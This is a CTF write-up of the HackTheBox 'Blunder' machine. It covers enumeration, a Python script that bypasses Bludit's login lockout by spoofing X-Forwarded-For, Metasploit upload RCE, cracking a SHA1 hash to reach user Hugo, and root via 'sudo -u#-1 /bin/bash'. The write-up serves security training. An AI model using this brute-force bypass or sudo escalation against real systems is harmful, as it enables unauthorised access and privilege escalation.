 ```yaml
---
title: Writeup - HackTheBox - Blunder
published: true
---
```

![](Pictures/Blunder/logo.png)

This machine from HackTheBox is categorized as an “easy” Linux
machine.
The machine is hosting a website with Bludit CMS version 3.9.2.
The Bludit installation has security flaws that make’s it possible to get a remote shell for the user www-data. Bludit has a parallel installation on the server. From this installation I found a SHA1 hash for the account Hugo. Hugo is a user account on the server as well, and the password from the SHA1 hash is also the password for Hugo’s local account. There is a misconfigured setting for the user Hugo that makes it possible to escalate to root.

## [](#header-2)Enumeration

### [](#header-3)Nmap
I started with an nmap scan to get a list of running services on the machine.
```
Nmap -sC -sV -oA nmap 10.10.10.191
```

![](Pictures/Blunder/nmap.png)

I noticed only two open ports on the system, port 21 and 80. The webserver is hosting a website.

### [](#header-3)Gobuster
Gobuster is a tool that can be used to enumerate a website by
guessing what content is placed on the webserver. I ran the the
following command to start gobuster with one of my built-in
wordlists in Kali Linux:

```
gobuster dir w usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.191/ -x php,html,txt
```

```
/about (Status: 200)
/0 (Status: 200)
/admin (Status: 301)
/install.php (Status: 200)
/robots.txt (Status: 200)
/todo.txt (Status: 200)
/usb (Status: 200)
/LICENSE (Status: 200)
```

##### [](#header-5)Todo.txt
The file todo.txt seems to be something that is unusual. The
content of the file is the following:
-Update the CMS
-Turn off FTP - DONE
-Remove old users - DONE
-Inform fergus that the new blog needs images – PENDING
This information might be useful in a later stage.

##### [](#header-5)Robots.txt
The robots file is a file that gives instructions to search
engines such as Google and Bing etc. The instructions might be to exclude content from the website.
Robots.txt on this web server doesn't give any further useful information.

##### [](#header-5)/admin
Visiting http://10.10.10.191/admin in the web browser shows me that this site uses Bludit CMS, and also ask me to login.

## [](#header-2)Exploitation

### [](#header-3)Cewl
At this stage I dont have any credentials to use to login to the
CMS. From the text file todo.txt I got a name, fergus. This is not
enough, I still need some passwords to try login.
Cewl is a tool that indexes a web site with all text and writes it
to a file, one line per word.

```
Cewl -m 5 10.10.10.191 -w cewl.txt
```

This command gives me all text on the website, with minimum 5
chars and saves it to the file cewl.txt. With this information I
can use this to try to login. The cewl.txt has 188 lines so it
will take time to try everyone manually. The Bludit CMS also have
a function that locks out the IP-address, if more than 10 tries
fails.

### [](#header-3)Bludit Brute Force Migitation Bypass
Bludit has a configuration in the file security.class.php that
locks the user out after 10 tries. I found a solution to bypass
this configuration online from a Security Researcher, <a href="https://rastating.github.io/bludit-brute-force-mitigation-bypass/">rastating</a>.
Rastating writes about the problem and also provides a python-
script as a Proof Of Concept. By running a modified version of
this script with the assumption that the valid username is
“fergus”, I was able to find a matching password,
“RolandDeschain”, from the wordlist made by cewl earlier.
Now I was able to use the credentials to log on to the system.

#### [](#header-4)The modified script

```
#!/usr/bin/env python3
import re
import requests

host = 'http://192.168.194.146/bludit'
login_url = host + '/admin/login'
username = 'admin'
wordlist = []

# Generate 50 incorrect passwords
for i in range(50):
	wordlist.append('Password{i}'.format(i = i))

# Add the correct password to the end of the list
wordlist.append('adminadmin')

for password in wordlist:
	session = requests.Session()
	login_page = session.get(login_url)
	csrf_token = re.search('input.+?name="tokenCSRF".+?value="(.+?)"',
login_page.text).group(1)

	print('[*] Trying: {p}'.format(p = password))

	headers = {
		'X-Forwarded-For': password,
		'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36
(KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36',

		'Referer': login_url
	}

	data = {
		'tokenCSRF': csrf_token,
		'username': username,
		'password': password,
		'save': ''
	}

	login_result = session.post(login_url, headers = headers, data = data, allow_redirects = False)

	if 'location' in login_result.headers:
		if '/admin/dashboard' in login_result.headers['location']:
			print()
			print('SUCCESS: Password found!')
			print('Use {u}:{p} to login.'.format(u = username, p = password))
			print()
			break
```

### [](#header-3)Bludit_upload_images_exec - MetaSploit
There is a vulnerability in the image upload function what in
short terms means that an attacker can upload a malicious payload
file and get remote code execution.
There is a module added to MetaSploit that executes this attack.

![](Pictures/Blunder/metasploit.png)

With this exploit, using the credentials from before, I was able
to get a shell back for the user www-data.

### [](#header-3)SHA1 hash
From the folder /var/www/ I saw that there is another Bludit
installation on the server. Bludit-3.10.0a.

![](Pictures/Blunder/var-www.png)

Inside the folder /var/www/bludit-3.10.0a/bl-content/databases is
a file named users.php. The file contains information about the
user Hugo.

![](Pictures/Blunder/users.png)

The password shown in the picture is the SHA1 hash for the user
Hugo. The hash was cracked and the password is: Password120
I was now able to change user to Hugo.

![](Pictures/Blunder/user.png)

And here is the user.txt flag.

### [](#header-3)Privilege escalation
I did some enumeration to see if Hugo is able to perform commands
as root.

![](Pictures/Blunder/sudo-l.png)

With this knowledge I can use an technique to trick the system
that Im allowed to run bash as root.

```
sudo -u#-1 /bin/bash
```

This gives me a root shell and I was able to get the root.txt
flag.

![](Pictures/Blunder/root.png)

